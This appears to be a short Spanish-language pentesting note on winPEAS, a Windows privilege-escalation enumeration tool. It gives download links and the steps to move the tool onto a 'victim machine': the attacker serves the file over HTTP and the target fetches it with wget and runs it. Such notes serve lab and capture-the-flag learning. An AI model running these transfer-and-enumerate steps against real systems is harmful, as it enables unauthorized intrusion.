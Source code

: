 Enumera posibles escaladas de privilegio para maquinas windows de manera automatica

-------
# Links
[Link del proyecto en github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)
[Link del archivo directo para descargar](https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe)

------

# Como pasarlo a la maquina victima

Abrimos un [[python3 -m http.server]] desde nuestra maquina

Desde la maquina victima: 
```shell
wget http://IpDeNuestraMaquina/winPEASx64.exe -outfile winPEASx64.exe
Ejemplo: wget http://10.10.16.16/winPEASx64.exe -outfile winPEASx64.exe
```

Desde la powershell ejecutamos `./winPEAS64.exe > win` y vamos a mandar el output a un archivo llamado win, por que si ejecutamos directamente el archivo, como es mucho texto no podemos visualizarlo todo en al consola ya que no nos deja hacer scroll muy arriba